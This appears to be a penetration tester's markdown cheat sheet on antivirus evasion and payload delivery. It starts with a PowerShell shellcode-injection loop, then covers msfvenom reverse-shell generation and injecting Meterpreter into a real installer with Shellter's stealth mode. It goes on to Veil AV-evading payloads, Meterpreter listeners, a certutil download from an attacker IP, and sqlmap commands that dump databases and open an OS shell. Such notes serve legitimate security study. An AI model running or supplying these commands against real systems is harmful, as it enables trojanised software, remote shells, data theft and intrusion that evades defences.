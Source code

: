 ```

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
- Note: Consider modifying template to change all static variable names to be more generic;
	- eg. `winFunc` to `var2`, `Win32` to `Win32`, `$sc` to `var1`
- Generate reverse shellcode with msfvenom: `msfvenom -p windows/shell_reverse_tcp LHOST=local.ip.address.here LPORT=localportnumber -f powershell -v sc`
- Drop output into placeholder `<place your shellcode here>` 
- Run Powershell script on target computer to create reverse shell: `.\payload.ps1`

## Automatic Injection with `Shellter`
- Download a target file (eg. SpotifySetup.exe)
- Run `sudo shellter` in Auto Mode (`A`)
	- Define target file location
	- Allow tracing to run for 60 seconds
	- Enter Stealth Mode (`y`)
	- Use a listed payload (`L`) and Select payload by index (eg. `1` for Meterpreter_Reverse_TCP)
	- Set LHOST & LPORT, then allow Shellter to complete process
- Run a Meterpreter Listener to pickup the shell: `msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.xx.xx;set LPORT 4444;run;"`
- Copy the file from Kali to Target machine: `certutil.exe -urlcache -split -f "[http://<your ip here>:80/](http://10.10.0.61:90/nc.exe)winrar-x32-611.exe"`

## Automatic AV-evading Payloads with `Veil`
- Run Veil: `veil` 
	- Install: `sudo apt -y install veil` 
	- Be aware this requires wine, is +800mb in size, & takes a long time to install/setup
	- More info: https://github.com/Veil-Framework/Veil
	- Full veil/evasion tutorial https://www.youtube.com/watch?v=iz1twCSJZyo
- Select evasion: `use 1`
- List available payloads: `list`
- Select payload: `use 22` (eg. For Powershell Meterpreter Reverse TCP)
	- Note: The lover-level the language, the greater chance of success
- Set LHOST & LPORT: `Set LHOST 192.168.xx.xx` & `set LPORT 4444`
- Generate payload: `generate`
- Enter name for payload (eg. `payload` or `testbatfile`)
- Create meterpreter listener: `msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.xx.xx;set LPORT 4444;run;"`
- Copy `payload.bat` from `/var/lib/veil/output/source/` onto target 
- Execute file on target, check connection from target
	- Run `shell` in meterpreter once connection is made
## **Automatic Code Execution**
Use `sqlmap` for automated SQLi - very noisy, zero stealth approach
- Dump the entire database: `sqlmap -u http://taregt.ip.address.here/blindsqli.php?user=1 -p user --dump`
- Establish full interactive shell: `sqlmap -u http://taregt.ip.address.here/blindsqli.php?user=1 -p user --os-shell`
